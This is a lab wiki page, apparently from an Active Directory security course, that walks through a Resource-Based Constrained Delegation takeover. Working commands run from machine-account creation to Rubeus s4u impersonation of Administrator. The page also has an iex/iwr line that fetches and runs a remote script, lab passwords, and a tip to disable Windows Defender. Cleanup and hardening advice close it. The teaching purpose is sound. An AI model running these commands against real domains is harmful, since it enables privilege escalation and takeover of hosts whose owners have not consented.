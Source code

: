 # Computeraccount Takeover

## Configuring

### Prerequisite

{% content-ref url="../../acl-abuses/owns.md" %}
[owns.md](../../acl-abuses/owns.md)
{% endcontent-ref %}

### Configuring

Nothing need to be configured to abuse this since we set the GenericAll permissions during the "Owns" section. If you would like to configure this it can be configured the same way as we configured "Write Owner".

## Attacking

### How it works

Is you have GenericAll or GenericWrite rights to a computer object you can write to the attribute `msds-AllowedToActOnBehalfOfOtherIdentity`. If you control this attribute you can impersonate and authenticate as any domain user to the computer. Resulting in getting access to the computer as long as you can impersonate a user that has access too it. Users with the flag "This account is senstitive and cannot be delegated" or members of the "Protected Users Group" can't be impersonated.

### Tools

* [PowerMad](https://github.com/Kevin-Robertson/Powermad)
* [Invoke-DNSUpdate](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)

### Executing the attack

#### Prereqesuite

* An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
* A user with write privileges over the target computer which doesn't have msds-AllowedToActOnBehalfOfOtherIdentity

#### Executing the attack

1. It is expected that the GenericAll permissions during the ACL abuses "Write Owner" and "Owns" are set for the `sa_sql` user. This attack will continue from there:

{% content-ref url="../../acl-abuses/owns.md" %}
[owns.md](../../acl-abuses/owns.md)
{% endcontent-ref %}

2\. First we will check that the target doesn't have the `msds-AllowedToActOnBehalfOfOtherIdentity` attribute set.

```
Get-DomainComputer -Domain secure.local -Credential $creds -Server 10.0.0.100 Data01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

![](<../../../../.gitbook/assets/image (18) (1).png>)

The attribute haven't been set yet.

3\. Add the following to the `/etc/hosts` file on Kali otherwise the Crackmapexec command will fail:

```
10.0.0.100 secure.local
10.0.0.100 dc03
10.0.0.100 dc03.secure.local
```

4\. Check if we can add computers to the domain since its a requirement for the attack. We can get the machine account qouta from the domain with Crackmapexec:

```
crackmapexec ldap 10.0.0.100 -u sa_sql -p Iloveyou2 -M MAQ
```

![](<../../../../.gitbook/assets/image (48).png>)

The machine account qouta is 10, meaning we (all authenticated users) can create our own computerobject in the domain.

5\. Create a machine account with the name `FAKE01` and password `123456` with PowerMad:

```
iex (iwr http://192.168.248.2:8090/Powermad.ps1 -usebasicparsing)
New-MachineAccount -Domain secure.local -Credential $creds -DomainController 10.0.0.100 -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../../../.gitbook/assets/image (67) (1) (1).png>)

6\. Get the SID of the computerobject we created:

```
Get-DomainComputer fake01 -Domain secure.local -Credential $creds -Server 10.0.0.100
```

![](<../../../../.gitbook/assets/image (55).png>)

7\. Now we need to create the raw security descriptor which we then will write to the attribute:

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1498997062-1091976085-892328878-1108)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

{% hint style="info" %}
Make sure you changed the SID since it can differ in your lab.
{% endhint %}

![](<../../../../.gitbook/assets/image (49).png>)

8\. Now we can write as `sa_sql` to the `msds-allowedtoactonbehalfofotheridentity` attribute of the computerobject `DATA01`:

```
Get-DomainComputer DATA01 -Domain secure.local -Credential $creds -Server 10.0.0.100 | Set-DomainObject -Domain secure.local -Credential $creds -Server 10.0.0.100 -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![](<../../../../.gitbook/assets/image (66).png>)

9\. Seems like it worked, now we can check the value of the `msds-AllowedToActOnBehalfOfOtherIdentity` attribute by saving it in a variable and doing some powershell confu to decrypt it:

```
$RawBytes = Get-DomainComputer DATA01 -Domain secure.local -Credential $creds -Server 10.0.0.100 -Properties 'msds-allowedtoactonbehalfofotheridentity' | Select-Object -ExpandProperty msds-allowedtoactonbehalfofotheridentity
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
Get-DomainComputer -Domain secure.local -Credential $creds -Server 10.0.0.100 <SID>
```

![](<../../../../.gitbook/assets/image (52).png>)

10\. `FAKE01` can impersonate any user now to `DATA01`. To do this we first need to calculate the NTLM hash for the `FAKE01` password, we can do this with Rubeus.

```
.\Rubeus.exe hash /password:123456 /user:fake01 /domain:secure.local
```

![](<../../../../.gitbook/assets/image (72) (1).png>)

{% hint style="info" %}
Temporarily disable Windows Defender if it gets flagged by it.
{% endhint %}

11\. The next step is to run Rubeus to impersonate the `Administrator` user using the `FAKE01` Computeraccount. Abusing Resource Based Constrained Delegation. We will request a CIFS ticket so we can list the C disk.

```
.\Rubeus.exe s4u /domain:secure.local /dc:10.0.0.100 /user:fake01 /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:CIFS/data01.secure.local /ptt
```

![](<../../../../.gitbook/assets/image (33).png>)

![](<../../../../.gitbook/assets/image (59).png>)

12\. We got a CIFS ticket as `Administrator` for `data01.secure.local`, now we can try to list the C disk.

![](<../../../../.gitbook/assets/image (61).png>)

### Cleanup

1. Login to `DC03` as `Administrator` with the password `Welcome01!`.
2. Execute the following command to remove the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute from `DATA01`.

```
Set-ADComputer -PrincipalsAllowedToDelegateToAccount $null -Identity data01
```

3\. Execute the following command to remove the `FAKE01` computer we created:

```
Get-ADComputer fake01 | Remove-ADObject
```

## Defending

### Recommendations

* Change who can add computers to the domain.

{% content-ref url="../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md" %}
[change-who-can-join-computers-to-the-domain.md](../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md)
{% endcontent-ref %}

* Add privileged users to the protected users group.

{% content-ref url="../../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

* Add the flag "Account is sensitive and cannot be delegated".

{% content-ref url="../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md" %}
[account-is-sensitive-and-cannot-be-delegated.md](../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1" %}
